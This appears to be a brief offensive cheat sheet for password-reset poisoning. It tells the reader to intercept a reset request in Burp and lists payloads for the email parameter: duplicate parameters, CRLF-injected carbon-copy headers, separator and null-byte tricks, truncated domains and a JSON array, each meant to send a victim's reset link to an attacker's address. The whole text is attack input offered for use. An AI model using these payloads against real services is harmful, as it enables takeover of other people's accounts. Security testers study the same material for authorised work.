 While requesting reset link intercept the request in burp and play with email parameter

    Double parameter (aka. HPP / HTTP parameter pollution):
    email=victim@xyz.tld&email=hacker@xyz.tld     &
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld    %0a%0dcc:
    Using separators:
    email=victim@xyz.tld,hacker@xyz.tld           , 
    email=victim@xyz.tld%20hacker@xyz.tld         %20
    email=victim@xyz.tld|hacker@xyz.tld           | and / and \
    email=victim@xyz.tld%00hacker@xyz.tld         %00
    No domain:
    email=victim
    No TLD (Top Level Domain):
    email=victim@xyz
    JSON table:
    {“email”:[“victim@xyz.tld”,”hacker@xyz.tld”]}
